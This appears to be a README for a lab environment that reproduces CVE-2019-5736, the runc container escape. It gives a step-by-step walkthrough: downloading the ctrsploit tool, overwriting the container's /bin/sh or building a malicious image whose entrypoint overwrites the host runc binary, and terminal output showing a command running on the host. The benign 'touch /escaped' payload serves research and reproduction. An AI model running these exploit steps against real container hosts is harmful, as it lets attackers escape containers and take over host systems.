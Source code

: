 # cve-2019-5736

* dqd:
  * ssst0n3/docker_archive:cve-2019-5736 -> ssst0n3/docker_archive:cve-2019-5736_v0.1.0
  * ssst0n3/docker_archive:cve-2019-5736_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2019-5736 -> ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0
  * ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0

## usage

```shell
$ cd vul/cve-2019-5736
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
$ ./ssh
```

### reproduce

#### exec

terminal 1

```shell
root@cve-2019-5736:~# docker run --name poc -ti busybox:1.34 bash
root@b54c1cd02517:/# wget -q https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O /usr/bin/ctrsploit
root@b54c1cd02517:/# chmod +x /usr/bin/ctrsploit
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
```

terminal 2

```shell
root@cve-2019-5736:~# docker exec -ti poc /bin/sh
```

terminal 1

```shell
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
INFO[0000] Found the PID: 22                            
INFO[0000] Successfully got the file handle             
INFO[0000] Successfully got write handle&{0xc00009a060} 
INFO[0000] The command executed is#!/bin/bash
touch /escaped
root@c4602d14a7f8:/# exit
-rw-r--r-- 1 root root 0 Oct 14 08:49 /escaped
```

#### image

```shell
root@cve-2019-5736:~# ctrsploit vul 5736 x image -c 'touch /escaped'
INFO[0000] exploit generated in poc-cve-2019-5736 directory, build it and push it to your registry
docker build -t poc poc-cve-2019-5736 
root@cve-2019-5736:~# docker build -t poc poc-cve-2019-5736
Sending build context to Docker daemon  6.144kB
Step 1/10 : FROM golang:1.16 AS builder
 ---> 972d8c0bc0fc
Step 2/10 : COPY overwriter.go /
 ---> 6fe005276394
Removing intermediate container bcd95d06fe39
Step 3/10 : COPY ld.go /
 ---> c96cc8d25694
Removing intermediate container deac0e0c9b4e
Step 4/10 : RUN CGO_ENABLED=0 go build -o /overwriter /overwriter.go
 ---> Running in 5527dc25ba1a
 ---> 1559134298da
Removing intermediate container 5527dc25ba1a
Step 5/10 : RUN CGO_ENABLED=0 go build -o /ld /ld.go
 ---> Running in e870f2e20af3
 ---> 07547540fe01
Removing intermediate container e870f2e20af3
Step 6/10 : FROM ubuntu:16.04
 ---> b6f507652425
Step 7/10 : COPY --from=builder /ld /lib64/ld-linux-x86-64.so.2
 ---> Using cache
 ---> e15e9f6a5e5c
Step 8/10 : COPY --from=builder /overwriter /
 ---> 3be58e5a6a06
Removing intermediate container c9ea8ad203d6
Step 9/10 : COPY payload /payload
 ---> 55529e029bf9
Removing intermediate container a0468d84af75
Step 10/10 : ENTRYPOINT /proc/self/exe
 ---> Running in bf38aaf8feaa
 ---> d8d16c4d99b9
Removing intermediate container bf38aaf8feaa
Successfully built d8d16c4d99b9
Successfully tagged poc:latest
root@cve-2019-5736:~# docker run -ti poc
ld
[+] Successfully got the file handle 3
overwriter
/proc/self/fd/3
[+] Successfully got write handle &{0xc00004a060}
[+] The command executed is 
#!/bin/bash
touch /escaped
root@cve-2019-5736:~# ls -lah /escaped 
-rw-r--r-- 1 root root 0 Oct 14 09:34 /escaped
```


### env details

```shell
root@cve-2019-5736:~# docker --version
Docker version 17.06.0-ce, build 02c1d87
root@cve-2019-5736:~# docker-runc --version
runc version 1.0.0-rc3
commit: 2d41c047c83e09a6d61d464906feb2a2f3c52aa4
spec: 1.0.0-rc5
```

## build

```shell
make all DIR=vul/cve-2019-5736
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0
```
